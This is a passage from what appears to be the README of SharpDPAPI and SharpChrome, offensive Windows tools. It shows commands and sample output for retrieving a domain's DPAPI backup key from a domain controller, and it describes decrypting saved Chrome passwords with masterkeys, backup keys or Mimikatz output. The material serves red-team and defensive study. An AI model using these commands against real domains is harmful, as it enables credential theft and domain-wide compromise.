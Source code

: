 By default, SharpDPAPI will try to determine the current domain controller via the **DsGetDcName** API call. A server can be specified with `/server:COMPUTER.domain.com`. If you want the key saved to disk instead of output as a base64 blob, use `/file:key.pvk`.

Retrieve the DPAPI backup key for the current domain controller:

 C:\Temp>SharpDPAPI.exe backupkey

 __ _ _ _ ___
 (_ |_ _. ._ ._ | \ |_) /\ |_) |
 __) | | (_| | |_) |_/ | /--\ | _|_
 |
 v1.2.0


 [*] Action: Retrieve domain DPAPI backup key


 [*] Using current domain controller : PRIMARY.testlab.local
 [*] Preferred backupkey Guid : 32d021e7-ab1c-4877-af06-80473ca3e4d8
 [*] Full preferred backupKeyName : G$BCKUPKEY_32d021e7-ab1c-4877-af06-80473ca3e4d8
 [*] Key :
 HvG1sAAAAAABAAAAAAAAAAAAAACUBAAABwIAAACkAABSU0EyAAgAAA...(snip)...


Retrieve the DPAPI backup key for the specified DC, outputting the backup key to a file:

 C:\Temp>SharpDPAPI.exe backupkey /serverrimary.testlab.local /file:key.pvk

 __ _ _ _ ___
 (_ |_ _. ._ ._ | \ |_) /\ |_) |
 __) | | (_| | |_) |_/ | /--\ | _|_
 |
 v1.2.0


 [*] Action: Retrieve domain DPAPI backup key


 [*] Using server : primary.testlab.local
 [*] Preferred backupkey Guid : 32d021e7-ab1c-4877-af06-80473ca3e4d8
 [*] Full preferred backupKeyName : G$BCKUPKEY_32d021e7-ab1c-4877-af06-80473ca3e4d8
 [*] Backup key written to : key.pvk


## SharpChrome Commands

### logins

The **logins** command will search for Chrome 'Login Data' files and decrypt the saved login passwords. If execution is in an unelevated contect, CryptProtectData() will automatically be used to try to decrypt values.

Login Data files can also be decrypted with a) any "{GUID}:SHA1 {GUID}:SHA1 ..." masterkeys passed, b) a `/mkfile:FILE` of one or more {GUID}:SHA1 masterkey mappings, c) a supplied DPAPI domain backup key (`/pvk:BASE64...` or `/pvk:key.pvk`) to first decrypt any user masterkeys, or d) a `/password:X` to decrypt any user masterkeys, which are then used as a lookup decryption table. DPAPI GUID mappings can be recovered with Mimikatz' `sekurlsa::dpapi` command.
